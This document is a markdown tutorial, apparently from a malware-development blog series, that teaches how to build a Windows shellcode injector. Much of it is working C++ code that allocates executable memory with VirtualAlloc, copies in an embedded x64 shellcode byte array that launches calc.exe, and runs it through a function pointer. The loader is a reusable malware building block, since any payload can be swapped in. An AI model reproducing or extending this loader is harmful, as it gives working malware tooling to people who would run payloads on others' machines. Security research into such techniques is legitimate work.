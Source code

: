 ```yaml
---
title: "Part 1: Shellcode Injector Guide"
date: 2025-10-27
tags: ["maldev", "shellcode", "injection", "security-research"]
---
```


# Shellcode Injector Guide

> **Educational Notes**: A structured guide to understanding shellcode injection fundamentals

## Table of Contents

- [Overview](#overview)
- [What is a shellcode injector?](#what-is-a-shellcode-injector)
- [Implementation Steps](#implementation-steps)
- [Code Examples](#code-examples)
- [Complete Implementation](#complete-implementation)

---

## Overview

One of the **easiest ways** to get started with malware development (maldev) is to build a **shellcode injector**.

---

## What is a shellcode injector?

A **shellcode injector** is a tool or program used to insert shellcode (executable binary code) into a target process's memory so that the process will execute that code.

---

## Implementation Steps

Building a basic shellcode injector is straightforward and can be done in a few lines of code:

| Step | Action                     | Windows API          |
|------|----------------------------|---------------------|
| **1** | Allocate executable memory | `VirtualAlloc()`    |
| **2** | Copy shellcode to memory   | `memcpy()`          |
| **3** | Execute the shellcode      | Function pointer cast |

### Detailed Process:

1. **Memory Allocation**: Use `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions
2. **Data Copy**: Transfer shellcode bytes using `memcpy`
3. **Execution**: Cast pointer to function and invoke

---

## Code Examples

### Required Headers

```cpp
#include <windows.h>
#include <iostream>
```

### Basic Implementation Pattern

```cpp
// Step 1: Allocate executable memory
LPVOID ptr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// Step 2: Copy shellcode to allocated memory
memcpy(ptr, buf, sizeof(buf));

// Step 3: Cast to function pointer and execute
void (*func)() = (void(*)())ptr;
func();
```

> **Tip**: Always check if `VirtualAlloc` returns `NULL` to handle allocation failures

---

## Complete Implementation

The following demonstrates a **working example** that implements all the concepts above:

```cpp
#include <windows.h>
#include <iostream>

unsigned char buf[] = {
    0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
    0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
    0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
    0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
    0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
    0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
    0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
    0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
    0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
    0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
    0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
    0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
    0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
    0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
    0x65, 0x78, 0x65, 0x00
};

int main() {
    std::cout << "This is a shellcode try a calc will be launch" << std::endl;

    LPVOID ptr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (ptr == NULL) {
        std::cout <<" PTR is NULL" << std::endl;
        return -1;
    }

    memcpy(ptr, buf, sizeof(buf));

    void (*func)() = (void(*)())ptr;
    func();

    return 0;
}
```

---
